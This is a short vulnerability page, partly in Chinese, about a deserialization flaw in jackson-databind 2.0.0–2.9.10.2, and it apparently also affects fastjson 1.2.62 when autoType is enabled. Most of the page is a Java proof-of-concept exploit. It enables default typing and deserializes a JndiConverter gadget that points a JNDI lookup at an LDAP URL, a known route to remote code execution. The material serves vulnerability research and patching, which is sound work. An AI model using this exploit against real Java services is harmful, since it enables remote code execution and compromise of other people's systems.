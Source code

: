 <languages />

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
jackson-databind 2.0.0 – 2.9.10.2

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
經驗證fastjson在開啟了autoType功能的情況下，影響最新的fastjson v1.2.62版本

</div>
POC
---

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
       public static void main(String args[]) {
           ObjectMapper mapper = new ObjectMapper();

           mapper.enableDefaultTyping();

           String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

           try {
               mapper.readValue(json, Object.class);
           } catch (IOException e) {
               e.printStackTrace();
           }

       }
    }